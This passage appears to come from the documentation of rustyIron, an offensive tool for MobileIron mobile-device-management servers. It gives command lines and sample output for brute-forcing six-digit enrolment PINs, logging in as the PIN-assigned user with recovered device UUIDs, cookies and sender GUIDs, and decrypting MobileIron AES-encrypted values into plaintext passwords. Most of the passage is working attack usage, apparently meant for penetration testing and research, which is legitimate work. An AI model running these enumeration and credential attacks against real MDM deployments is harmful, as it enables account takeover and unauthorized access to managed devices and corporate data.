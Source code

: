 PIN based authentication is slightly different in the response interpretation:
```
$ rustyIron auth-pin -pin 950278 auth.mitest.com
[*] auth-pin threading 1 values across 10 threads
[+] jane.smith:950278[0781728bc397e81b:lptJRTZKaxRIFge9:1073741940] - Authentication Successful - Configuration Received
```

PIN based is a one-to-one attack surface between a single use PIN and the assigned user account and is not observed to be vulnerable to larger authentication attacks. When executing the `auth-pin` method, PIN enumeration is performed through multiple authentication attempts. Research has show the standard key length is six numberic values. Successful validation of a PIN is identified when the endpoint provides the zLib compress MDM profile. Decompressing this profile validates the assigned user criteria of the PIN. rustyIron provides the following output format when a PIN is validated:
* `<username>:<PIN #>[<Device UUID>:<MI Cookie>:<SenderGUID>]`

The `auth-pinpass` method works similar to the `auth-pin` method with the exception of a username and password value to additionally be provided.
```
$ rustyIron auth-pin -pin 365778 -u jane.smith -p Password01 auth.mitest.com
[*] auth-pinpass threading 1 values across 10 threads
[+] jane.smith:365778[0781728bc397e81b:lptJRTZKaxRIFge9:1073741940] - Authentication Successful - Configuration Received
```

### PIN User Authentication

Once a PIN has been validated through `auth-pin` or `auth-pinpass` the username, UUID, Cookie, and SenderGUID can be leverage to perform a single-factor authentication attempt. The reach of this authentication attack has been observed to only affect the PIN assigned user, and a wider attack surface was not observed. Unlike standard user authentication, credentials submitted through this authentication method are not AES encrypted.
```
$ rustyIron auth-pinuser -u jane.smith -p Password01 -uuid 0781728bc397e81b -c lptJRTZKaxRIFge9 -guid 1073741940 auth.mitest.com
[*] auth-pinuser threading 1 values across 10 threads
[+] jane.smith:Password01 - Authentication Successful
```

## Decryption

Finally, there is decryption. If there is a MobileIron AES encrypted value that would need decrypting the following command can be leveraged.

```
$ rustyIron.go decrypt 877D1EC52C7F75582D003EBDA1D118BC
[+] Decrypted Cipher 877D1EC52C7F75582D003EBDA1D118BC: "Password01"
```
